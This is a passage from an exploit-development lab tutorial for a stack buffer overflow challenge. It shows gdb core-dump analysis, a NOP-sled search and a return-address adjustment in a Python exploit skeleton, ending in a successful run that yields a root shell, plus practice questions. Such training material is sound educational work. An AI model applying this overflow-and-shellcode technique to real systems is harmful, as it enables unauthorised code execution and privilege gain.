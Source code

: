 This will generate a corefile
```
root@hlUbuntu32:~/challenges/challenge11# gdb -q challenge11 core
Reading symbols from challenge11...(no debugging symbols found)...done.
[New LWP 14378]
Core was generated by `./challenge11...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffffd836 in ?? ()
(gdb) x/8x $eip
0xffffd836:     0x00000000      0x00000000      0x68632f2e      0x656c6c61
0xffffd846:     0x3165676e      0x90900031      0x90909090      0x90909090
```

We can simple look where EIP is pointing, and realize that the actual shellcode
seems to be several bytes behind the current EIP (0x90909090).

```
(gdb) x/8x $eip+0x16
0xffffd84c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd85c:     0x90909090      0x90909090      0x90909090      0x90909090
```

Therefore, lets adjust the exploit once again:

Replace:
```
ret_addr = "\x36\xd8\xff\xff"
```

with:
```
ret_addr = "\x4c\xd8\xff\xff"
```

```
root@hlUbuntu32:~/challenges/challenge11# ./challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
#
```


## Questions

* Can you create an exploit which works with, and without GDB?
* Can you create an exploit where the shellcode is stored in the variable password (argv[2])?
